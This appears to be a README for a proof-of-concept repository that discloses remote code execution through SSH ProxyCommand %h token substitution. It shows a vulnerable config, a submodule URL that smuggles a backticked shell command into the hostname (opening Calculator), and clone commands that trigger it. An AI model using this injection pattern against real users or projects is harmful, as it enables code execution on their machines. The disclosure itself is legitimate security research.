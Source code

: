 ## RCE via insecure `~/.ssh/config`

Use of tokens like %h, %p in `ProxyCommand` is quite popular to use tunnels and connection proxying using SSH.

### Vulnerable config

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

Note: in my initial assessment I was under the impression that using '%h` (single quotes) would avoid this, but looks like that is still going to be vulnerable with something like:

```
url = ssh://'`open -aCalculator`'foo.example.com/bar
```

Taken from: https://man.openbsd.org/ssh_config#ProxyCommand

### What is in this repository

A submodule which would exploit this vulnerability to pop a calculator on OSX.

Try it out using:

`git clone https://github.com/vin01/poc-proxycommand-vulnerable --recurse-submodules`

or

`git clone git@github.com:vin01/poc-proxycommand-vulnerable.git --recurse-submodules`
